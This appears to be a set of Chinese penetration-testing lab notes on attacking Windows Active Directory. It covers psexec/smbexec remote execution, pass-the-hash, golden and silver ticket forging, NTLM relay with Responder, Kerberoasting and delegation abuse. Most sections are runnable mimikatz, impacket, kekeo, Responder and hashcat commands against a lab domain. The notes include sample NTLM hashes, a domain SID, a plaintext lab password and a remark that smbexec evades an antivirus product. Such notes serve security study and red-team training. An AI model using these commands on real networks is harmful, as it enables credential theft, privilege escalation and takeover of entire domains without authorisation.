# 1. psexec 与 smbexec

## 1.1 PsTools 中的 psexec

### 1.1.1 psexec 直接连接服务器

- 通过提供用户名和密码就能远程连接到目标服务器
- 用户一般是**域中的管理员用户,** 通常情况下只有被添加到本地管理员组的域用户或者本地 SID 为 500 的 Administrator 用户才有连接权限.
- 获取到用户名密码后, 可使用如下命令连接:

```
psexec.exe \\ip -u <域名>\<用户名> -p <密码> <命令>
```

其中, 在命令参数前可添加如下参数:

```
-s 以system身份执行命令
-d 以非交互形式执行命令
-i 以交互形式执行命令
```

- 机器在第一次使用 psexec 的时候，会弹出确认提示框，为避免这个麻烦，可以加一个参数：

```
psexec.exe -accepteula \\ip -u 账号 -p 密码 cmd
```

### 1.1.2 IPC 连接

- psexec 是使用 windows 共享来完成的连接, 也就是 IPC, 那么我们也可以先建立 IPC 连接, 再使用 psecex:

建立 IPC 连接

```
net use \\ip /u:<域名>\<用户名> <密码>
```

- 此时连接便不再需要账号与密码

## 1.2 smbexec

- smbexec 是基于 psexec 的另一款远程管理工具, 属于 impacket 工具套件. smbexec 依赖 445 端口, 且目标必须开放文件共享, 例如`c$`, `admin$`

### 1.2.1 smbexec 使用账号密码获取 shell

kali 自带 impacket, 执行如下命令, 若执行成功则会获取 system 权限的 shell(能绕火绒)

```
smbexec.py <domain>/<username>:<password>@192.168.247.146
```

若密码中含有特殊符号, 则密码可以不输入, smbexec 会提示输入密码, 如下:



### 1.2.2 smbexec 哈希传递

- 哈希传递与上面的命令类似, 只不过多了一个参数-hashes, 并且无需输入密码

```
smbexec.py -hashes :4d01fbeeaf2b706478943e0889df5622 <域名>/<用户名>@<ip>
```



### 1.2.3 MSF psexec 模块

略

# 2. 哈希传递攻击(PTH)

## 2.1 NTLM 认证

1. 用户->服务器: 用户向服务器发起 NTLM 认证请求, 并将自己的用户用户名发给服务器
2. 服务器->用户: 服务器给用户发送一个 16 位随机数
3. 用户->服务器: 用户使用自己的 NTLM 加密随机数, 并将加密后的随机数发送给服务器.
4. 服务器->DC: 服务器将加密后随机数和请求服务的用户名发送给 DC
5. DC 验证: DC 根据收到的用户名从 KDC 中获取该用户的 NTLM, 并将加密的随机数解密, 最后将解密结果发送回服务器
6. 服务器: 若随机数解密正确, 则认证成功



## 2.2 哈希传递攻击原理

在认证过程中, 攻击者不需要获取明文密码, 只需要获取到用户的 NTLM 哈希, 就可以伪造用户发起一次完整的认证流程. 在域环境下, 如果获取到了域管用户的 NTLM 哈希, 那么就可以接手整个域网络.

## 2.3 攻击演示

使用 mimikatz 进行 PTH:

```
privilege::debug
sekurlsa::pth /user:administrator /domain:Mint.com /ntlm:899858313a9f440a3b6cc47bb5c8f08d
```

之后就会获取该 NTLM 用户的 shell, 在该 shell 可以无需输入密码地使用 psexec 进行连接:



另外也可以使用`smbexec`和`Invoke-TheHash`进行攻击.

# 3. 票据传递攻击 (PTT)

## 3.1 攻击原理

### 3.1.1 kerberos 认证回顾

- kerberos 认证流程



1. 校园卡(TGT)是保安签发的, 校园卡上印有独属于保安的印章(kerbgt hash 加密)
2. 校园卡可以兑换对种票据, 例如借书票, 饭票等票据
3. 借书票、饭票等票据由售票阿姨签发，这些票据上有相应资源提供者专属的盖章(ST)
4. 售票阿姨只看校园卡上是否有保安的盖章
5. 借书票、饭票等只能由于兑换特定的资源

### 3.1.2 黄金票据

在上面的描述里:

> 校园卡 ====> TGT(票据授权票)

**校园卡**是由**保安**签发的, 并且上面还有**保安的专属印章**  
类比 Windows 中的 kerberos 认证, TGT(校园卡)是由**Authentication Service**(保安)来签发的, 并且使用了**krbtgt 的 NTLM HASH**(保安的专属印章)进行**加密**(盖章)

黄金票据就是指攻击者获取到了 krbtgt 的 NTLM HASH 后, 攻击者就可以伪造一张 TGT, 利用伪造的 TGT 就可以伪造域内任意用户访问域内 kerberos 认证的所有服务资源.

- 黄金票据传递攻击的原理



### 3.1.3 白银票据

> 饭票 ====> ST(服务票据)

在上面的例子里, **饭票**是由**售票阿姨**签发的, 并且上面有**相应资源提供者的专属印章**

类比 Windows 中的 kerberos 认证, 服务票据是由**Ticket Granting Server**(售票阿姨)签发的, 并且使用了**相应服务账号的 NTLM HASH**(相应资源提供者的专属印章)进行**加密**(盖章)

白银票据的意思就是, 当攻击者获取到某个服务账号的 NTLM HASH 后, 攻击者就可以绕过 kerberos 认证的前几部, 直接伪造服务票据去访问资源.

- 白银票据传递攻击原理


### 3.1.4 黄金票据与白银票据的区别

- 访问权限不同

黄金票据: 伪造 TGT, 可以获取任意 kerberos 服务权限
白银票据: 伪造 ST, 只能访问指定的服务

- 加密方式不同

黄金票据: 由 krbtgt 的 NTLM HASH 进行加密
白银票据: 由服务账号(通常为计算机账号)的 NTLM HASH 进行加密

- 认证流程不同

黄金票据: 利用过程需要访问域控
白银票据: 不需要访问域控

## 3.2 黄金票据攻击演示

- 1. 获取 krbtgt hash:

首先使用 mimikatz 在域控上获取 krbtgt hash:

```
privilege::debug
lsadump::dcsync /user: krbtgt
```

> 注: lsadump::dcsync
> 向 DC 发起一个同步对象（可获取帐户的密码信息）的质询。需要的权限包括管理员组（Administrators），域管理员组（ Domain Admins）或企业管理员组（Enterprise Admins）以及域控制器的计算机帐户，只读域控制器默认不允许读取用户密码数据。



- 2. 利用 krbtgt hash 和域的 sid 制作黄金票据

```
kerberos::golden /user:<伪造的用户> /domain:<域名> /sid:<域的sid> /krbtgt:<krbtgt hash> /ticket:ticket.kirbi
```



- 3. 利用黄金票据

未导入黄金票据前, 尝试向域中新增域管用户, 命令执行失败:



使用黄金票据, 可以使用任意域内用户调用任意域服务. 首先将黄金票据导入内存:

```
mimikatz # kerberos::purge
mimikatz # kerberos::ptt ticket.kirbi
```



查看内存中的票据:



此时尝试创建一个 ccc 的域管账号，命令执行成功：


## 3.3 白银票据攻击演示

为了伪造 TGS, 我们需要获取如下信息:

```
/domain: 域名
/sid: 域的sid
/service: 目标机器上的kerberos服务, 此处以cifs为例
/rc4: 计算机账户的ntlm hash, 域控主机的计算机账户
/user: 要伪造的用户名, 可任意
```

- 获取到服务提供者的 NTLM hash

```
privilege::debug
sekurlsa::logonpasswords
```



> 注: 此处要找到计算机账户，也就是 Username : WIN-NK5H2367K35$的 NTLM hash，如果是其他账户，那么会失败, 也就是需要共享服务账号。

- 获取到域的 sid:



- 使用 mimikatz 执行如下命令:

```
kerberos::golden /user:test /domain:gong.com /sid:S-1-5-21-3389351060-1252541886-3241281496 /target:WIN-NK5H2367K35.gong.com /service:cifs /rc4:95d8d196e4c54be3360f9f5eefde1c65 /ptt
```

命令格式为:

```
kerberos::golden /user:<任意用户名> /domain:<域名> /sid:<域的sid> /target:<目标机器(也可以理解为对应的服务器)> /service:<服务名称> /rc4:<服务提供者的ntlm hash>
```

常见的服务有:


# 4. NTLM 中继攻击

## 4.1. NTLM 认证

### 4.1.1 NTLM 概念

NTLM 认证可分为协商, 挑战, 响应三个部分

1. 客户端首先在本地加密当前用户的密码成为密码散列
2. 客户端向服务器发送自己的账号,这个账号是没有经过加密的,明文传输.
3. 服务器端产生一个 16 位的随机数字发送给客户端,作为一个 challenge(挑战)
4. 客户端再用加密后的密码散列来加密这个 challenge,然后把这个返回给服务器,作为 response(响应)
5. 服务器端将用户名,给客户端的 challenge,客户端返回的 response 这三个东西发送给域控制器.
6. 域控制器用这个用户名在 SAM 密码管理库中找到这个用户的密码散列,然后使用这个密码散列来加密 chellenge
7. 域控制器比较两次加密的 challenge,如果一样,那么认证成功,反之,则认证失败.

**NTLM 中继攻击无法攻击开启 SMB 签名的主机**

### 4.1.2 利用 Responder 窃取用户 hash

实验环境:

- 被控主机: 192.168.247.135 (windows 2016)
- 域内主机: 192.168.247.136 (windows 7)
- 与控主机: 192.168.247.137 (windows 2016)

1. 在被控主机中开启 Responder 监听

```
python Responder.py -l <网卡名称> -v
```

- -v, 显示详细参数信息


2. 诱导域内主机对被控主机发起 NTLM 请求, 例如 net use 命令:

```
net use \\192.168.247.135\c$
```

域内用户认证完成后, 被控主机即可获取该域内主机的 NTLM hash





3. 使用 hashcat 破解 NTLM hash

```
hashcat64.exe -m 5600 <ntml_hash_file> <passwd_dict>
```

- -m, 指定 hash 文本类型



### 4.1.3 利用 Responder 进行 NTML 中继攻击

由于 NTLM 中继攻击对开启 SMB 签名的主机无效, 因此需要先使用 Responder tools 目录下的 Runfinger.py 寻找未开启 SMB 签名的主机:

```
python RunFinger.py -i 192.168.247.0/24
```



可以看到`192.168.247.146`的`Signing`是`False`

1. 修改 Responder.conf 配置文件, 关闭 smb, http 服务端

```
SMB = Off
HTTP = Off
```



2. 使用 1.2 中的方法开启 Responder 监听
   此时 SMB 和 HTTP 服务都被关闭里



3. 开启 NTLM hash 转发:
   在 Responder 的 tools 目录下, 使用 MultiRelay.py 对未开启 SMB 签名的域内主机进行 NTLM 转发

```
python MultiReplay.py -t <被攻击目标IP> -u ALL
```



4. 诱导域内主机访问被控主机的 SMB 服务, 例如:

```
net use \\192.168.247.136\c$
```



5. 成功之后, 将会获取域内主机的 system 权限 shell



# 5. SPN 利用

## 5.1 SPN 简介

SPN 全称`Service Principal Names`，服务主体名称。用于唯一标识 Windows 服务的每个实例，每个使用 Kerberos 的服务都需要一个 SPN。如果服务的权限为一个域用户，则 SPN 注册在域用户（User）账户下；若服务权限为 Local System 或 Network Service，则 SPN 注册在机器账户下（Computers）下。

## 5.2 SPN 格式

`<service class>/<host>:<port>/<service name>`

例如:

```
MSSQLSvc/TEST1.mortal.com:1433
```

其中:

- `service class`: 标识一般服务类别的字符串; 例如 SQLServer
- `host`: 运行服务的计算机的名称。可以是标准的 DNS 名称或者 NetBIOS 名称。
- `port`: 运行的端口号。
- `service name`: 在可复制服务的 SPN 中使用的可选名称, 用于标识服务提供的数据或服务或服务所服务的域。

## 5.3 SPN 扫描

### 5.3.1 使用 setspn 发现 SPN 服务

```
setspn -T domain -q */*
```



### 5.3.2 使用 kerberoast 工具集-GetUserSPNs

```
cscript GetUserSPNs.vbs
```



## 5.4 Kerberos TGS 票据离线破解(Kerberoasting 攻击)

### 5.4.1 利用思路

域内的任何用户都可以向域内的任何服务请求 TGS

域内的任何一台主机，都能够通过查询 SPN，向域内的所有服务请求 TGS，拿到 TGS 后对其进行暴力破解

对于破解出的明文口令，只有域用户帐户(Users)的口令存在价值，不必考虑机器帐户的口令(无法用于远程连接)

我们回顾一下 Kerberos 认证流程:

> 1、用户将 AS-REQ 数据包发送给 KDC（Key Distribution Centre，密钥分发中心，此处为域控），进行身份认证。
> 2、KDC 验证用户的凭据，如果凭据有效，则返回 TGT（Ticket-Granting Ticket，票据授予票据）。
> 3、如果用户想通过身份认证，访问某个服务（如 IIS），那么他需要发起（Ticket Granting Service，票据授予服务）请求，请求中包含 TGT 以及所请求服务的 SPN（Service Principal Name，服务主体名称）。
> 4、如果 TGT 有效并且没有过期，TGS 会创建用于目标服务的一个服务票据。服务票据使用服务账户的凭据进行加密。
> 5、用户收到包含加密服务票据的 TGS 响应数据包。
> 6、最后，服务票据会转发给目标服务，然后使用服务账户的凭据进行解密。

因此，高效率的利用思路如下：

1. 查询 SPN，找到有价值的 SPN，需要满足以下条件：
   - 该 SPN 注册在域用户帐户(Users)下
   - 域用户账户的权限很高
2. 请求 TGS
3. 导出 TGS
4. 暴力破解

### 5.4.2 票据破解法

- 使用工具: mimikatz, kerberoast 工具集

1. 使用 kerberoast 工具集中的 GetUserSPNs 获得 SPN


2. 在受害机中使用 powershell 请求 TGS

在 powershell 中输入:

```powershell
$SPNName = "MSSQLSvc/win2016-member1.gong.com"
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```



3. 使用 mimikatz 查看并导出票据

默认配置加密类型是 aes256_hmac，tgsrepcrack 无法破解，可在服务器组策略指定加密类型为 RC4_HMAC_MD5。
GPO_name\Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options
Network security: Configure encryption types allowed for Kerberos





4. 使用 kerberoast 工具集中的`tgsrepcrack.py`脚本进行破解

```
python tgsrepcrack.py pwdtop100.txt MSSQLSvc~TEST1.mortal.com~1433-MORTAL.COM.kirbi
```

PS: 本地未解开

5. 但是不推荐使用`tgsrepcrack.py`, 这里先用 kerberoast 工具集中的`kirbi2john.py`将.kirbi 文件转换为 hashcat 的格式

```
python .\kirbi2john.py .\file.kirbi
```



6. 使用 hashcat 去解, 其中将`-m`参数设为 13100

```
.\hashcat.exe -m 13100 .\kirbi-hash.txt .\passwd.txt
```



### 5.4.3 hash 破解法

需要工具

- Empire 工具集: [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)
- hashcat: [https://hashcat.net/hashcat/](https://hashcat.net/hashcat/)

1. 使用`Invoke-Kerberoast.ps1`获取 hash 值:

```
import-module Invoke-kerberoast.ps1
Invoke-kerberoast -outputformat hashcat
```

这里的 outputformat 参数可以指定输出的格式，可选 John the Ripper 和 hashcat 两种格式, 输出内容如下:



也可以只提取 hash:

```
Invoke-kerberoast -outputformat hashcat | select hash | ConvertTo-CSV -NoTypeInformation
```



2. 使用 hashcat 破解

```
.\hashcat.exe -m 13100 .\kirbi-hash.txt .\passwd.txt
```


# 6. 委派攻击

域委派是指将域内用户的权限委派给服务账号，使得服务账号能以用户的权限在域内展开活动；简言之：当 A 访问服务 B 时，服务 B 拿着 A 用户的凭证去访问服务 C，这个过程称为委派。
委派攻击分为三种方式：

> 1. 非约束委派攻击
> 2. 约束委派攻击
> 3. 基于资源的委派攻击

## 6.1 非约束委派攻击

### 6.1.1 非约束委派概念

首先看一张微软官方的图片:



非约束委派的流程如下

> 1. 用户通过 KRB_AS_REQ 消息, 请求可转发的`TGT1`
> 2. KDC 通过 KRB_AS_REP 返回申请的`TGT1`
> 3. 用户使用`TGT1`通过 KRB_AS_REQ 消息向 KDC 申请待转发的`TGT2`
> 4. KDC 通过 KRB_AS_REP 消息返回申请的`TGT2`
> 5. 用户使用 TGT1 向 KDC 申请 Services1 的票据`ST1`
> 6. KDC 向用户返回申请的服务票据`ST1`
> 7. 用户通过 KRB_AP_REQ 消息向 Service1 发起请求, 包括`ST1`, `TGT1`, `TGT2`和`TGT2会话密钥`
> 8. Service1 通过 KRB_TGS_REQ 消息, 使用`TGT2`和`TGT2会话密钥`向 KDC 申请访问 Service2 的服务票据`ST2`
> 9. KDC 通过 KRB_TGS_REP 详细将`ST2`返回给 Server1, `ST2`中的客户端信息为用户, 而不是 Service1
> 10. Service1 使用`ST2`通过 KRB_AP_REQ 向 Service2 发起请求
> 11. Service2 响应 Service1 的请求
> 12. Service1 响应步骤 7 中的请求, 流程结束

### 6.1.2 非约束委派攻击原理

在上面的过程中, 没有限制 Service1 对`TGT2`的使用, 所以 Service1 可以使用`TGT2`对任意服务发起任意请求.

重复 8~11 的步骤, 得到访问服务 N 的票据`ST N`;

Service1 就可以用用户的身份访问 ServiceN;

综上, 如果 Service1 被攻击拿下, 便可以以用户身份来访问任意服务了. 即 Service1 可以获取发起委派用户的 TGT

### 6.1.3 非约束委派攻击实验

实验环境:

- 域控: WIN-NK5H2367K35.gong.com
- 域内主机: win2016-member1.gong.com

在域内只有主机账号和服务账号才能有委派属性；主机账号：通过是我们活动目录中的 computers 组内的计算机，也被称为机器账号。
例如：我们的图中的`hexi`。是没有委派属性的


服务账号：域内用户的一种类型，是服务器运行服务时所用的账号，将服务运行起来加入域内，比如：SQLServer,MYSQL 等；我们所建立的域用户通过注册 SPN 也能成为服务账号。

```
setspn -A MSSQLSvc/win2016-member1.gong.com win2016test  # 账号win2016test注册为SPN服务账号
setspn -d MSSQLSvc/win2016-member1.gong.com win2016test  # 取消服务账号，变回初始的域用户账号
```

---

- **例如**

- 取消注册 win2016test 的 SQLServer SPN 服务



- 注册 win2016test 的 SQLServer SPN 服务



---

当一个账号用有了 SPN 服务后, 他便具有了委派属性, 我们将 win2016test 设置为非约束委派


并将 WIN2016-MEMBER1 也设置为非约束委派



- 配置好环境后, 我们使用`PowerView`查询域中配置了非约束委派的主机

```
Import-Module .\powerview.ps1
Get-NetComputer -Unconstrained -Domain gong.com
```



- 此时我们导出 win2016-member1 的票据, 可以发现没有关于 administrator 的票据

```
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
```



- 在域控中, 我们使用 administrator 身份通过 WinRM 远程连接 WIN2016-MEMBER1，这是管理用账户的 TGT 就保存在 WIN2016-MEMBER1 了。

```
Enter-PSSession -ComputerName WIN2016-MEMBER1
```


在主机 WIN2016-MEMBER1 上, 使用 mimikatz 导出 administrator 发送过来的 TGT 票据

```
privilege::debug
sekurlsa::ticket /export
```



在域用户 win2016test 中访问域控 C 盘, 被拒绝:



将 administrator 的 TGT 注入当前会话中

```
kerberos::ptt file.kirbi
```



- 注入成功后可以访问域控的 C 盘



## 6.2 约束委派攻击

### 6.2.1 约束委派概念

约束委派流程:



> 1. 用户向 Service1 发起 KRB_TGS_REQ 请求(包含 TGT), 此前用户已经通过了身份验证, 但是没有访问 Service1 的服务票据(ST). 此时用户会追加`S4U2self`. `S4U2self`的作用是使得服务可以代表某个用户获得一个用来访问服务自身的票据。
> 2. Service1 利用用户发来的 TGT, 通过`S4U2self`扩展模拟用户向 KDC 请求访问 Service1 的票据`ST1`
> 3. KDC 返回给 Service1 用于用户验证 Service1 的`ST1`
> 4. Service1 使用模拟用户申请的`ST1`完成与用户的验证, 响应用户.
> 5. 用户再次向 Service1 发起 KRB_TGS_REQ 请求, 并委派 Service1 访问 Service2 中专属于用户的服务
> 6. Service1 收到用户的请求后, 代表用户向 Service2 请求用于认证 Service2 的服务票据`ST2`, . 此时会追加`S4U2proxy`, `S4U2proxy`可以使当前主机代表其他用户来访问其他主机，相比较于`S4U2self`，范围大了很多，当然“代表”肯定也是有限制条件的。
> 7. KDC 收到请求后, 验证请求中的 PAC, 验证成功或请求中没有 PAC, 则 KDC 返回 ST2 给 Service1
> 8. Service1 利用 ST2 访问 Service2
> 9. Service2 验证成功后响应 Service1 的请求
> 10. Service1 再响应用户的请求

### 6.2.2 约束委派攻击原理

在 s4u 请求阶段, 可以伪造发起请求方的用户名, 因此我们可以伪造 Administrator 的用户身份用来访问委派的服务.

即我们在拥有任意已知用户密码的情况下, 可以通过约束委派攻击, 获取特定服务票据.

### 6.2.3 约束委派攻击演示

- 实验环境:

域控: WIN-NK5H2367K35.gong.com
攻击机: win2016-member1.gong.com
攻击机: win7test.gong.com

如下图, 设置服务用户 win2016test 对 win2016-member1 的 cifi 服务的委派



- 在已知服务账户明文的情况下, 我们用`kekeo`请求该用户的 TGT

```
tgt::ask /user:win2016test /domain:gong.com /password:Caonima@123 /ticket:test.kirbi
```



生成的服务账户 TGT 如下所示:



利用得到的 TGT 伪造 s4u, 请求以 Administrator 用户身份请求访问 win2016-member1 cifs 的 ST

```
tgs::s4u /tgt:TGT.kirbi /user:Administrator@gong.com /service:cifs/win2016-member1.gong.com
```


`S4Uself`获取到的`ST1`, 以及`S4U2proxy`获取到的 win2016-member1 cifi 服务的`ST2`会保存在当前目录下



主机 win7test 访问 win2016-member1 的 C 盘目录被拒绝:



使用 mimikatz 将 ST2 导入当前会话:



现在可以成功访问 win2016-member1 的 C 盘目录:


